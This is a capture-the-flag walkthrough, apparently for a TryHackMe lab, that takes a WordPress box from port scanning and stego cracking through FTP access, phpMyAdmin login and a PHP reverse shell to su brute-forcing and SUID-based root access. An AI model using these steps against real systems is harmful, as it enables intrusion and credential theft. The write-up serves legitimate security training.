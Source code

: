 # Diffrent CTF

### Task 1 Basic scan
can be done with nmap and gobuster

###### Nmap scan

`$ nmap -vv -p- IPADDR`

    Discovered open port 80/tcp on 10.10.228.110
    Discovered open port 21/tcp on 10.10.228.110
    PORT   STATE SERVICE REASON
    21/tcp open  ftp     syn-ack
    80/tcp open  http    syn-ack


###### gobuster result

`$ gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 30`

    /wp-content           (Status: 301) [Size: 319] [--> http://10.10.228.110/wp-content/]
    /a[REDACTED]       (Status: 301) [Size: 322] [--> http://10.10.228.110/a[REDACTED]/]
    /wp-includes          (Status: 301) [Size: 320] [--> http://10.10.228.110/wp-includes/]  
    /javascript           (Status: 301) [Size: 319] [--> http://10.10.228.110/javascript/]   
    /wp-admin             (Status: 301) [Size: 317] [--> http://10.10.228.110/wp-admin/]     
    /phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.228.110/phpmyadmin/] 


### Task 2 Localhost
`http://IPADDR/a[REDACTED]`

[![/a](https://i.imgur.com/KGz41yt.png "/a")](https://i.imgur.com/KGz41yt.png "/a")

now we have a image and wordlist looks like a job for stegcracker

password was at the eof took some time to crack

`$ stegcracker austrailian-bulldog-ant.jpg wordlist.txt`

    Successfully cracked file with password: [REDACTED]
    Tried 49--- passwords
    Your file has been written to: austrailian-bulldog-ant.jpg.out
    [REDACTED]

`$ cat austrailian-bulldog-ant.jpg.out `

    RlRQL[REDACTED]nRwClBBU1M6IDEyM2FkYW5hY3JhY2s=

`$ cat austrailian-bulldog-ant.jpg.out  | base64 -d`

    FTP-LOGIN
    USER: hakanftp
    PASS: 123[REDACTED]

`$ ftp IPADDR`

    ftp> ls -la
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxrwxrwx    8 1001     1001         4096 Jan 15 12:26 .
    drwxrwxrwx    8 1001     1001         4096 Jan 15 12:26 ..
    -rw-------    1 1001     1001           88 Jan 13 11:06 .bash_history
    drwx------    2 1001     1001         4096 Jan 11 10:29 .cache
    drwx------    3 1001     1001         4096 Jan 11 10:29 .gnupg
    -rw-r--r--    1 1001     1001          554 Jan 10 22:26 .htaccess
    drwxr-xr-x    2 0        0            4096 Jan 14 16:49 announcements
    -rw-r--r--    1 1001     1001          405 Feb 06  2020 index.php
    -rw-r--r--    1 1001     1001        19915 Feb 12  2020 license.txt
    -rw-r--r--    1 1001     1001         7278 Jun 26  2020 readme.html
    -rw-r--r--    1 1001     1001         7101 Jul 28  2020 wp-activate.php
    drwxr-xr-x    9 1001     1001         4096 Dec 08 22:13 wp-admin
    -rw-r--r--    1 1001     1001          351 Feb 06  2020 wp-blog-header.php
    -rw-r--r--    1 1001     1001         2328 Oct 08  2020 wp-comments-post.php
    -rw-r--r--    1 0        0            3194 Jan 11 09:55 wp-config.php
    drwxr-xr-x    4 1001     1001         4096 Dec 08 22:13 wp-content
    -rw-r--r--    1 1001     1001         3939 Jul 30  2020 wp-cron.php
    drwxr-xr-x   25 1001     1001        12288 Dec 08 22:13 wp-includes
    -rw-r--r--    1 1001     1001         2496 Feb 06  2020 wp-links-opml.php
    -rw-r--r--    1 1001     1001         3300 Feb 06  2020 wp-load.php
    -rw-r--r--    1 1001     1001        49831 Nov 09 10:53 wp-login.php
    -rw-r--r--    1 1001     1001         8509 Apr 14  2020 wp-mail.php
    -rw-r--r--    1 1001     1001        20975 Nov 12 14:43 wp-settings.php
    -rw-r--r--    1 1001     1001        31337 Sep 30  2020 wp-signup.php
    -rw-r--r--    1 1001     1001         4747 Oct 08  2020 wp-trackback.php
    -rw-r--r--    1 1001     1001         3236 Jun 08  2020 xmlrpc.php
    226 Directory send OK.
    ftp> 

[Click to download php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php "Click to download php reverse shell")

[i used my own php shell click to go github page](https://github.com/rootkral4/phpreverseshell "i used my own php shell click to go github page")

i tried to upload php shell but server responded with 404
so download and read wp-config.php

` $ head -n 40 wp-config.php`

    define( 'DB_NAME', 'phpmyadmin1' );
    
    /** MySQL database username */
    define( 'DB_USER', 'phpmyadmin' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', '[REDACTED]' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );
    
    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8mb4' );
    
    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );


`http://IPADDR/phpmyadmin`

logged in via creds in wp-config.php

[![](https://i.imgur.com/5Wjx7Zr.png)](https://i.imgur.com/5Wjx7Zr.png)

there is 2 phpmyadmin db
phpmyadmin1 -> wp_options -> site_url was a subdomain

`$ nano /etc/hosts` //add subdomain to hosts

`http://subdomain.adana.thm/`

this subdomain was same as main website
when i move to /phpshell.php, yes! php shell is here
got reverse shell finally

    remote@machine$ cd ..
    remote@machine$ cd html
    remote@machine$ cat wwe3bbfla4g.txt
    THM{343a7[REDACTED]c346edff}

then i searched for suid files nad found this one but others has no execute perm

    -rwxr-x--- 1 root hakanbey 238080 Nov  5  2017 /usr/bin/find

In this case, we know that we need to switch to the hakanbey user. Due to the similarity of stego and ftp passwords, the password of the hakanbey user can also be in this format.
123adana is prefix for passwords, created a wordlist(used wordlist.txt on ftp) with this prefix
after that i sent sucrack to remote machine 

`remote@machine$ dpkg -x sucrack_1.2.3-5+b1_amd64.deb sucrack`

`remote@machine$ sucrack -w 100 -b 500 -u hakanbey wordlist.txt`

after short period of time sucrack was succed

`remote@machine$ su hakanbey`

    THM{8ba9d7[REDACTED]d00e67127} //user flag

`remote@machine$ find / -perm -4000 -type f 2>/dev/null` // scanning for suid again

    /usr/bin/binary

`remote@machine$ ltrace ./binary`

    strcat("***", "****")                                                                                    = "******"
    strcat("******", "**")                                                                                  = "********"
    strcat("*********", "***")                                                                               = "************"
    strcat("************", "**")                                                                             = "*************"
    printf("I think you should enter the cor"...)                                                            = 52
    __isoc99_scanf(0x561c5b518edd, 0x7fff99056ac0, 0, 0I think you should enter the correct string here ==>^C <no return ...>
    --- SIGINT (Interrupt) ---
    +++ killed by SIGINT +++

got string

`remote@machine$ ./binary`

    I think you should enter the correct string here ==>w*************
    Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/root.jpg (CyberChef)
    
    Copy /root/root.jpg ==> /home/hakanbey/root.jpg

    00000000  FF D8 FF E0  00 10 4A 46   49 46 00 01  01 01 00 60                                                                                             ......JFIF.....`
    00000010  00 60 00 00  FF E1 00 78   45 78 69 66  00 00 4D 4D                                                                                             .`.....xExif..MM
    00000020  ** ** ** **  ** ** ** **   ** ** ** **  ** ** ** **                        // hint points this line                                                                     ...=y._..m..i..u
    00000030  00 00 00 56  03 01 00 05   00 00 00 01  00 00 00 68                                                                                             ...V...........h
    00000040  03 03 00 01  00 00 00 01   00 00 00 00  51 10 00 01                                                                                             ............Q...
    00000050  00 00 00 01  01 00 00 00   51 11 00 04  00 00 00 01                                                                                             ........Q.......
    00000060  00 00 0E C4  51 12 00 04   00 00 00 01  00 00 0E C4                                                                                             ....Q...........
    00000070  00 00 00 00  41 64 6F 62   65 20 49 6D  61 67 65 52                                                                                             ....Adobe ImageR
    00000080  65 61 64 79  00 00 00 01   86 A0 00 00  B1 8F FF DB                                                                                             eady............
    00000090  00 43 00 02  01 01 02 01   01 02 02 02  02 02 02 02                                                                                             .C..............
    000000A0  02 03 05 03  03 03 03 03   06 04 04 03  05 07 06 07                                                                                             ................

`https://cyberchef.com`

From HEX > To Base85
    root:[REDACTED]

`remote@machine$ su root`

    THM{c5a9d3[REDACTED]4466a6c}
